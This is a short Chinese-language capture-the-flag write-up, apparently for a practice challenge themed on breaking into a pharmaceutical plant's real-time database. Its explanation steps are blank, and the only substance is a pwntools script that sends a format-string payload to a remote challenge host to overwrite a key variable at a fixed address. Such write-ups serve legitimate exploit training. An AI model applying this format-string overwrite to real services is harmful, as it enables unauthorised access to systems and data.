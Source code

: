 # 实时数据监测

> 题目描述：小A在对某家医药工厂进行扫描的时候，发现了一个大型实时数据库系统。小A意识到实时数据库系统会采集并存储与工业流程相关的上千节点的数据，只要登录进去，就能拿到有价值的数据。小A在尝试登陆实时数据库系统的过程中，一直找不到修改登录系统key的方法，虽然她现在收集到了能够登陆进系统的key的值，但是只能想别的办法来登陆。

----------------------------------------------------------------------------------------------------------

## Writeup

1.

2.

3.

4. 代码实现
```python
import pwn

pwn.context(arch='i386', os='linux')

#p = pwn.process('./9926c1a194794984978011fc619e3301')
p = pwn.remote('220.249.52.133', 30149)

key_addr = 0x804A048
payload = b'%35795746x%16$n\x00' + pwn.p32(key_addr)    # %x：写入35795746个字符，$16$n：偏移量为16，payload = arg1 + arg2（中间用\x00隔开）

p.sendline(payload)

p.interactive()
```